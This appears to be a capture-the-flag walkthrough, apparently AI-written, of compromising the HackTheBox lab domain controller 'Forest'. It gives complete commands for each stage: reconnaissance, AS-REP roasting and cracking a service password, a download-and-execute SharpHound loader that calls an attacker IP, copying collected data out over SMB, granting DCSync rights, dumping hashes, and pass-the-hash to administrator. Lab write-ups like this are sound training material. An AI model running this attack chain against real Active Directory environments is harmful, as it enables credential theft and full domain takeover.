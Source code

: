 Here’s your walkthrough-style write-up for **HTB: Forest**, organized by stage and packed with relevant commands and explanations 👇

---

## 🛰️ Recon

### Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.161
```

### Targeted Script Scan
```bash
nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -oA scans/nmap-tcpscripts 10.10.10.161
```

### UDP Scan
```bash
nmap -sU -p- --min-rate 10000 -oA scans/nmap-alludp 10.10.10.161
```

---

## 🌲 Domain Discovery

### [DNS](DNS) Enumeration
```bash
dig @10.10.10.161 htb.local
dig @10.10.10.161 forest.htb.local
dig axfr @10.10.10.161 htb.local  # failed zone transfer
```

### Enumerating Users via [RPC](RPC.md)
```bash
rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
rpcclient $> querygroupmem 0x200
rpcclient $> queryuser 0x1f4
```

---

## 🧪 AS-REP Roasting

### Prepare User List
```bash
cat > users <<EOF
Administrator
andy
lucinda
mark
santi
sebastien
svc-alfresco
EOF
```

### Identify Vulnerable Users
```bash
for user in $(cat users); do
  GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}
done
```

### Crack the Hash
```bash
hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force
# Password: s3rvice
```

---

## 💻 Shell as `svc-alfresco`

### WinRM Access
```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

### Capture User Flag
```powershell
type C:\Users\svc-alfresco\Desktop\user.txt
```

---

## 🩸 BloodHound + SharpHound

### Load SharpHound
```powershell
iex(New-Object Net.WebClient).DownloadString("http://<your_ip>/SharpHound.ps1")
Invoke-BloodHound -CollectionMethod All -Domain htb.local -LdapUser svc-alfresco -LdapPass s3rvice
```

### Exfil via SMB
```powershell
net use \\<your_ip>\share /u:df df
copy 202XXXXX_BloodHound.zip \\<your_ip>\share\
net use /d \\<your_ip>\share
```

---

## 🧭 Path to Domain Admin

### Add User to Exchange Group
```powershell
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco
```

### Assign DCSync Rights
```powershell
$username = "htb\svc-alfresco"
$password = "s3rvice"
$secstr = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secstr

Add-DomainObjectAcl -Credential $cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

---

## 🔓 Dumping Administrator Hash

```bash
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```

---

## ⚙️ SYSTEM Shell

### Using Evil-WinRM
```bash
evil-winrm -i 10.10.10.161 -u administrator -H <NTLM hash>
```

### Or with wmiexec
```bash
wmiexec.py -hashes :<NTLM hash> htb.local/administrator@10.10.10.161
```

### Capture Root Flag
```powershell
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🧠 Beyond Root

- DCSync requires TCP 135, 445, and a high RPC port (like 49667).
- There’s a cleanup scheduled task (`revert.ps1`) that resets `svc-alfresco`’s password and group memberships every 60 seconds.
- You must move quickly between adding to Exchange Windows Permissions and running `Add-DomainObjectAcl`.

---

Let me know if you want this one exported as a markdown file or added to a master write-up! 🛠️🗒️
